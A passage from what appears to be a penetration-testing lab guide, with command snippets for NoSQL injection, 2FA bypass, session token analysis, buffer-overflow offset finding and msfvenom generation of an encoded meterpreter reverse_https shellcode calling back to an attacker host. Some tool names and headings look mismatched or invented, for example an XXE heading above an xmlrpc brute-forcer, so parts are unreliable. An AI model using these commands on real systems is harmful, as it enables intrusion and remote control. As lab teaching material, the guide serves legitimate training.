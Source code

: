 2. **Advanced Injection**
   ```bash
   # NoSQL Injection
   nosqlmap -u "http://target" -D database -C collection --dump
   
   # XML External Entity
   xmlrpc_bruteforcer.py -u http://target/xmlrpc.php -w wordlist.txt
   ```

### B. Web App Security Testing

1. **Authentication Bypass**
   ```bash
   # OAuth Testing
   oauth_tester.py -c client_id -s client_secret -t target
   
   # 2FA Bypass
   burp_2fa_bypass.py -u http://target -w wordlist.txt
   ```

2. **Session Management**
   ```bash
   # Session Analysis
   session_analyzer.py -c cookie.txt
   
   # Token Generation Pattern
   token_analyzer.py -t "session_token" -s samples.txt
   ```

## Lab 3: Advanced Exploitation Techniques

### A. Custom Exploit Development

1. **Buffer Overflow**
   ```python
   # Pattern creation
   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
   
   # Offset finding
   /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39694438
   ```

2. **Shellcode Generation**
   ```bash
   # Custom shellcode
   msfvenom -p windows/x64/meterpreter/reverse_https \
     LHOST=192.168.1.100 \
     LPORT=443 \
     -f c \
     -e x64/xor \
     -b "\x00\x0a\x0d"
   ```

### B. Evasion Techniques
